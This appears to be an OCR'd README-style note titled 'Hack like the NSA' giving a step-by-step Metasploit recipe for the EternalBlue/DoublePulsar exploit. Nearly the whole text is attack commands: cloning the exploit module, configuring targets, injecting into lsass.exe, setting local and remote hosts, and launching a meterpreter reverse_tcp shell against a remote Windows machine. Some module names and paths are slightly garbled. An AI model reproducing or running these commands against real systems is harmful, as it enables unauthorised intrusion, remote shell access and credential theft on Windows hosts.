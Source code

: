# Eternalblue-Doublepulsar-Metasploit
# Hack like the NSA

on /root/Desktop/
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
copy ruby file to /usr/share/metasploit-framework/module/exploits/windows/smb
use windows/smb/externalblue_doublepulsar
set eternalbluepath /root/Desktop
set doublepulsarpath /root/Desktop
set targetarchitecture x64
set processinject lsass.exe
set lhost local_ip
set rhost remote_ip
exploit

#make sure to setup wine folder
mkdir -p /root/.wine/drive_c/
#might needs the deps from the deps folder?!
#set the following:

set WINEPATH            /root/.wine/drive_c/ 
Payload options (windows/x64/meterpreter/reverse_tcp):
